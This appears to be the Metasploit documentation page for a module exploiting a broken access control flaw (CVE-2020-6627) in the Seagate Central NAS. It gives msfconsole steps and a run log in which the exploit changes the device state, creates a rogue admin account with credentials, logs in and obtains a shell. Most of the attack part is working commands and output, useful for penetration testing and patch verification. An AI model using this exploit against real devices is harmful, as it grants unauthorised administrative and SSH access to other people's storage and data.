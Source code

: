## Description
This module exploits the broken access control vulnerability in Seagate Central External NAS Storage device. (CVE-2020-6627)
Subject product suffers several critical vulnerabilities such as broken access control. It makes it possible to change the device state 
and register a new admin user which is capable of SSH access.

## Vulnerable Application 
Seagate Central is your personal cloud, providing a centralized location to store your files
from your Windows and Mac, mobile devices, and social networks. Play movies and music
and view photos from Seagate Central throughout your home on your smart TV, game
console, and tablet, and on an Internet-connected mobile device while on the road. With
Seagate Central, you can keep your digital life centralized and organized. 
read more : https://www.seagate.com/files/www-content/support-content/external-products/seagate-central/en-us/seagate-central-user-guide-us.pdf

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/seagate_central_ssh_user_add`
  4. Do: `set rhost <ip>`
  6. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```

## Scenarios
```
msf5 > use exploit/linux/http/seagate_central_ssh_user_add 
msf5 exploit(linux/http/seagate_central_ssh_user_add) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(linux/http/seagate_central_ssh_user_add) > run

[*] Current device state: social
[+] State successfully changed !
[*] Creating new admin user...
[*] User: jesse3233
[*] Pass: OdSvdFcT
[+] 192.168.1.27:80 - Login Successful (jesse3233:OdSvdFcT)
[*] Found shell.

id
uid=1001(jesse3233) gid=1001
```
